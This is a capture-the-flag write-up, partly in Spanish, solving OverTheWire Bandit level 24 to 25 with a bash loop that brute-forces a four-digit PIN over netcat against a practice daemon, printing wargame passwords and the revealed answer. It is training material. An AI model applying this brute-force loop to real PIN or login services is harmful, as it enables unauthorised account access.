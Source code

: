 # Retos Bandit

# Level 24 → Level 25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel
- **Usuario:** bandit24
- **Contraseña:** VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución
```bash
bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line,
separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v
Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single
line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Exiting.
```
## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
|  |  |

## Referencias
- []()